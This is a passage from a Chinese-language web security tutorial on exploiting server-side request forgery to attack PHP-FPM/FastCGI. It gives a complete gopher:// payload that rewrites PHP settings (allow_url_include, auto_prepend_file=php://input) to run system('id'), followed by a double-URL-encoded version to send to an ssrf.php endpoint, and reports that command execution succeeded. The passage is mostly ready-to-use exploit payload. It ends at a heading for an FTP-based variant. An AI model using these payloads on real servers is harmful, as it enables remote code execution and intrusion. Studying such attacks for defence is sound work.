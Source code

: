 如上图所示获得 payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的 payload 内容放到？url=后面发送过去即可：

```plain
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

[![](assets/1698897074-309d628ca5b8b7102b55e0b97fe8df37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134742-91522ad0-b2e5-1.png)

## FTP - SSRF 攻击 FPM/FastCGI
